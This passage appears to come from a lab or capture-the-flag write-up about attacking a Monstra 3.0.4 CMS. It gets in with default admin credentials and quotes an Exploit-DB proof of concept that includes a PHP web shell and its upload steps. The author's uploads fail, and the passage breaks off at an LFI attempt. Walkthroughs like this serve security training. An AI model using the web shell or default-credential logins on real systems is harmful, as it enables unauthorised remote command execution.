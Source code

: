 It's a default home page for Monstra 3.0.4, confirmed by scrolling down to bottom of page, where version is identified.

Clicking around, the only link that's active is the `admin/index.php` path where it says "First make sure you're logged in".

Try default creds: `admin:admin` and it works!

![](img/monstra-dashboard.png)

Now that we're logged in, it's time to check out the Authenticated RCE exploit:

- https://www.exploit-db.com/exploits/43348

```txt
Proof of Concept
Steps to Reproduce:

1. Login with a valid credentials of an Editor
2. Select Files option from the Drop-down menu of Content
3. Upload a file with PHP (uppercase)extension containing the below code: (EDB Note: You can also use .php7)

<?php
 $cmd=$_GET['cmd'];
 system($cmd);
?>

4. Click on Upload
5. Once the file is uploaded Click on the uploaded file and add ?cmd= to
the URL followed by a system command such as whoami,time,date etc.
```

Made the file, tried uploading but get error "The file was not uploaded"?

Tried `.php7` extension, FAIL. Tried `.phar` extension, FAIL.

Trying LFI vulnerability from here:
